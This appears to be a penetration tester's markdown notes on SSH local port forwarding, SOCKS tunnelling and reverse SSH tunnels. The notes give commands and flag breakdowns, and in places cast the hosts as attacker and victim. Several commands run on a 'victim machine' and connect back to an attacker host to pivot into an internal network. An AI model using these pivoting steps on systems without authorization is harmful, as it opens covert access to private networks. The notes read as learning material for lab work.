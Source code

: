 SSH Tunneling and Port Forwarding

SSH Port Forwarding

SSH port forwarding allows the forwarding of a specific port through a SSH connection

example usage:

~~~bash
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
~~~

Command Breakdown:

-L - creates the local port that is being used on the attacking machine
8000:172.16.0.10:80 - Localport:RemoteIP:RemotePort
user@172.16.0.5 - useraccount@RemoteIPwithSSHAccess
-fN - -f backgrounds the session and -N only sets up the connection

SSH Tunnelling

SSH Tunnelling allows for all traffic to be forwarded through a specific port on the attacking machine and passed through the victim computer

example usage:

~~~bash
ssh -D 1337 user@172.16.0.5 -fN
~~~

Command Breakdown:

-D - Creates proxy to tunnel traffic through on the local machine
1337 - Local port that the proxy is using
user@172.16.0.5 - useraccount@RemoteIPwithSSHAccess
-fN - -f backgrounds the session and -N only sets up the connection

Reverse SSH Tunnelling

Reverse SSH Tunnelling is the act of initiating the proxy connection from the victim machine to the attacker machine (the opposite of the above commands). For this, a SSH key will need to be generated on the Attacking machine to allow connections to create the proxy.

Steps to create a reverse ssh tunnell are listed below:

Generate Key Pair:

~~~bash
ssh-keygen
~~~

Create the SSH directory and the Authorized_Keys file:

~~~bash
mkdir ~/.ssh && touch ~/.ssh/authorized_keys
~~~

Copy the contents of the .pub file created with ssh-keygen. Edit the authorized_keys file that you created and add the following line before pasting the key in:

~~~bash
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty 
~~~

The final entry should look like this:

![[Pasted image 20230102132319.png]]

There should be no new lines, but the line that prepends the key should have a space after the no-pty

Next, check to see if SSH is running on your attacking machine:

~~~bash
systemctl status ssh
~~~

If it is not running, run the following command:

~~~bash
systemctl start ssh
~~~

Setting up the Reverse SSH Port Forwarding:

You can now use the private key on the victim machine to reverse ssh connect back to the attacker machine with the following command:

~~~bash
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
~~~

Command Breakdown:

-R - Creates the remote port on the attacker machine
8000:172.16.0.10:80 - AttackerMachineProxyPort:RemoteIP:RemotePort
kali@172.16.0.20 - AttackerUser@AttackerIP
-i KEYFILE - -i Specifies to use a Private Key and the KEYFILE is the keyfile/private key **May need to be chmod 600 on the keyfile for it to function properly
-fN - -f backgrounds the session and -N only sets up the connection

Setting up the Reverse SSH Tunnelling:

You can now use the private key on teh victim machine to reverse ssh connect back to the attacker machine with the following command:

~~~bash
ssh -R 1337 kali@172.16.0.20 -i KEYFILE -fN
~~~

Command Breakdown:

-R - Creates the remote port on the attacker machine
1337 - AttackerMachineProxyPort
kali@172.16.0.20 - AttackerUser@AttackerIP
-i KEYFILE - -i Specifies to use a Private Key and the KEYFILE is the keyfile/private key **May need to be chmod 600 on the keyfile for it to function properly
-fN - -f backgrounds the session and -N only sets up the connection

Cleanup Steps:

Check Processes and grep SSH sessions:

~~~bash
ps aux | grep ssh
~~~

Kill Process corresponding with SSH Session:

~~~bash
kill PID
~~~

